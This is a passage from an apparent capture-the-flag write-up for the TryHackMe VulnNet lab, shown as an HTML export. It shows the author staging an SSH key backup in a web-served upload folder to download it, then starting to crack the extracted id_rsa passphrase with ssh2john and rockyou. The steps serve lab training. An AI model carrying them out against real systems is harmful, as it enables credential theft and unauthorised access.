 # Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file=&quot;$hostname-$day.tgz&quot;

# Print start status message.
echo &quot;Backing up $backup_files to $dest/$archive_file&quot;
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo &quot;Backup finished&quot;
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest</code></pre><blockquote id="4f0c1a41-eafe-4eed-baa4-a57f88b10fda" class=""><strong>This script is used to create a backup of the files in the /home/server-management/ Documents directory.</strong></blockquote><p id="f5e81d6b-6dfb-4fea-9b49-6f78e863acb2" class="">
</p><p id="1509af7c-31a0-46fa-8f73-21b77d694613" class=""><strong>But we can’t🥶</strong></p><pre id="f8410d6e-8bd3-4a32-a7a6-e95b2cfd55a8" class="code"><code>$ /var/opt/backupsrv.sh
/bin/sh: 4: /var/opt/backupsrv.sh: Permission denied</code></pre><ul id="ec90fb9d-6654-4f25-a9bf-f50944664230" class="bulleted-list"><li style="list-style-type:disc">So let’s find allowed file<ul id="b107ace9-2f4c-4880-90a5-68956bcf4436" class="bulleted-list"><li style="list-style-type:circle"><code>find / -type f -user server-management 2&gt;/dev/null</code></li></ul><ul id="3617695f-effc-4d4f-8ee4-b7daa83b81ac" class="bulleted-list"><li style="list-style-type:circle"><code>/var/backups/ssh-backup.tar.gz</code> | let’s copy this file to our dir</li></ul><ul id="2435a4d6-a002-4789-bce2-0d7eca20bb32" class="bulleted-list"><li style="list-style-type:circle"><code>cp /var/backups/ssh-backup.tar.gz /var/www/html/actions/CB_BEATS_UPLOAD_DIR/ssh-backup.tar.gz</code></li></ul></li></ul><ul id="8bde2656-3f4a-4e7d-a6a3-17361e9b74a5" class="bulleted-list"><li style="list-style-type:disc">Then we download it! ⇒ <code><a href="http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/">http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/</a></code></li></ul><ul id="2d18f88e-ba02-4abe-9575-cf605d1f6204" class="bulleted-list"><li style="list-style-type:disc">when we extract it, it will give us <code>id_rsa</code> file. seems intersting!</li></ul><pre id="274d978c-bd03-4b3d-917a-6c2567fcfc38" class="code"><code>┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
└─$ ssh2john id_rsa &gt; id_rsa.txt 
                                                                                                                                                                       
┌──(nazu㉿Nazu)-[~/Desktop/CTF/THM-CTF/VulnNet]
└─$ locate rockyou.txt          
/home/nazu/Desktop/Word-List/rockyou.txt
/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz
/usr/share/wordlists/rockyou.txt.gz

